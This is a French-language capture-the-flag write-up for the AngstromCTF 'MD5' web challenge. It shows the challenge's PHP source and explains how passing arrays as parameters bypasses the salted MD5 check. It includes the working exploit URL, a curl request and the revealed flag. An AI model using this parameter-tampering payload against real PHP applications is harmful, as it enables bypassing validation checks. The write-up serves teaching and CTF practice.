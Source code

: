 # Angstorm - CTF writeup - MD5 - 140 pts

- Le chall consiste en un formulaire  qui doit comparer deux string qui une fois hashé en md5 doivent donner la même valeur :

![web-md5-screen.png](web-md5-screen.png)

- On peut voir dans les sources le code php suivant :
```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

- On constate qu'il n'y a que des comparaisons strictes, en `===` ou `!==`
- Le salt est le même des deux cotés : `hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"]))`
- Il faut donc arriver à faire en sorte que str1 soit égal à str2 tout en bypassant le test :  `$_GET["str1"] !== $_GET["str2"]`
- Pour se faire on va utiliser les tableaux en php car un tableau concaténé à un string produit la chaine 'Array':
```php
php > $a = array('str1');
php > $b = 'salt'.$a;
PHP Notice:  Array to string conversion in php shell code on line 1
php > var_dump($b);
string(9) "saltArray"
```

- Du coup en passant en paramètre deux tableaux différents, ceux-ci vont produire la même chaîne de caractère une fois concaténé au salt tout en passant le test d'inégalité des paramètres.

- Résultat : `http://web.angstromctf.com:3003/?str1[]=a&str2[]=b`
```
➜  ~ curl "http://web.angstromctf.com:3003/\?str1\[\]\=a\&str2\[\]\=b"
actf{but_md5_has_charm}
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
